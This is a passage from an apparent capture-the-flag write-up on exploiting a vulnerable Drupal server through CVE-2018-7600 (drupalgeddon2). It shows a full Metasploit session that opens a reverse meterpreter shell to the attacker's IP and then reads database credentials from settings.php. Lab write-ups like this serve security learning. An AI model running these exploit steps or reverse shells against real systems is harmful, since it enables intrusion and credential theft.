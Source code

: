 This version of drupal is vulnerable to CVE-2018-7600 also called drupalgeddon2. There exists a msf module for this CVE which we will use out of simplicity. We set the port to one that is mostly allowed for outbound connections, set the lhost to our vpn ip, set the rhost to the target and run the exploit. After some time it returns in a meterpreter on the target. 

```php
msf6 > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lport 443
lport => 443
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lport 443
lport => 443
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lhost 10.10.14.68
lhost => 10.10.14.68
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhost 10.129.48.89
rhost => 10.129.48.89
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 10.10.14.68:443 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (39282 bytes) to 10.129.48.89
[*] Meterpreter session 1 opened (10.10.14.68:443 -> 10.129.48.89:39072) at 2021-07-21 17:47:04 +0100

meterpreter >
```

## Database credentials

Drupal often stores the database credentials in a `settings.php` file which is also the case here.

```php
meterpreter > shell
Process 2108 created.
Channel 0 created.
cat /var/www/html/sites/default/settings.php
<?php

/**
 * @file
 * Drupal site-specific configuration file.
...[snip]...
$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
...[snip]...
```
